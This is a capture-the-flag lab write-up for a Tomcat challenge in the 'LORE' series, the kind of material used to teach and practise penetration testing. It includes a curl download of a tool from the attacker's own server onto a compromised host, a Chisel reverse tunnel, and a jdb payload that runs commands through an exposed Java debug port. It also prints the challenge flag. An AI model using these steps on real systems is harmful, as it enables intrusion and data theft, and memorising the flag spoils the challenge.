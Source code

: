 # Chapter 3: Bounded

## Challenge

Hi, TCC-CSIRT analyst,

Do you know the feeling when, after a demanding shift, you fall into lucid dreaming and even in your sleep, you encounter tricky problems? Help a colleague solve tasks in the complex and interconnected world of LORE, where it is challenging to distinguish reality from fantasy.

The entry point to LORE is at `http://intro.lore.tcc`.

See you in the next incident!

Hint: Be sure you enter the flag for the correct chapter.

Hint: In this realm, challenges should be conquered in a precise order, and to triumph over some, you'll need artifacts acquired from others - a unique twist that defies the norms of typical CTF challenges.

Hint: All systems related to Chapter 3 restart on failed health checks (every 5 minutes).

## Solution

### 1. Entry Point Discovery

The entry point for Chapter 3 is located at: `http://jgames.lore.tcc/`.

The site displays a **Tic-Tac-Toe** game from the following repository:  
[Tic Tac Toe GitHub](https://github.com/arringtonm/tictactoe).

### 2. Enumerating the Site

Using `feroxbuster`, we enumerated the site for hidden directories:

```bash
feroxbuster -u http://jgames.lore.tcc/

302      GET        0l        0w        0c http://jgames.lore.tcc/manager => http://jgames.lore.tcc/manager/
```

We checked the `/manager/` directory, but it returned the following message:

```
You are not authorized to view this page.

By default, the Manager is only accessible from a browser running on the same machine as Tomcat. If you wish to modify this restriction, you'll need to edit the Manager's context.xml file.
```

This confirmed that the server was running Apache Tomcat, but the Manager was inaccessible.

### 3. Using Access Gained in Chapter 2

Based on the hint, we leveraged the reverse shell we gained in Chapter 2 to enumerate the internal network.

First, we downloaded `nmap` to the machine from our own server using curl:

```bash
curl -o nmap http://10.200.0.57/nmap
chmod 0777 nmap
```

Then, using `ip addr`, we determined the internal network range (`192.168.73.1-255`) and scanned for active machines.

The scan revealed that jgames was running at `192.168.73.110`:

```bash
./nmap 192.168.73.110 -p1-65535
PORT     STATE SERVICE
5005/tcp open  unknown
8080/tcp open  http-alt
```

### 4. Exploiting the Java Debugger Port (5005)

Port 5005 is the Java Debugger (JDB) port, which was open. To access this port, we set up a reverse proxy using Chisel, which was already installed on the machine.

We started the Chisel server locally:

```bash
chisel server -p 8000 --reverse
```

Then, on the compromised machine from Chapter 2 (**pimpam**), we ran:

```bash
chisel client 10.200.0.57:8000 R:5005:192.168.73.110:5005
```

This allowed us to connect to the remote machine's port 5005 locally.

Next, we attached (locally) jdb to port 5005:

```bash
jdb -attach 5005
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Set uncaught java.lang.Throwable
Set deferred uncaught java.lang.Throwable
Initializing jdb ...
> 
```

JDB successfully attached!

### 5. Exploiting Tomcat via JDB

Using the `classes` command, we listed the loaded classes. After some attempts, we found a class where we could set a breakpoint to trigger command execution:

We set a breakpoint at:

```
stop in org.apache.tomcat.util.collections.SynchronizedQueue.size()
```

Once the breakpoint was hit, we executed a command to read environment variables:

```
print (new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.Runtime().exec("env").getInputStream())).lines().collect(java.util.stream.Collectors.joining(java.lang.System.lineSeparator())))
```

After executing the command, the environment variables were printed, and we found the flag.

## Flag

```
FLAG=FLAG{ijBw-pfxY-Scgo-GJKO}
```

## Note

The challenge was unstable, as the server restarted every 5 minutes (as indicated by the hint). This caused the IP address of the server to change after each restart, meaning we had to re-enumerate and repeat the process to regain access.
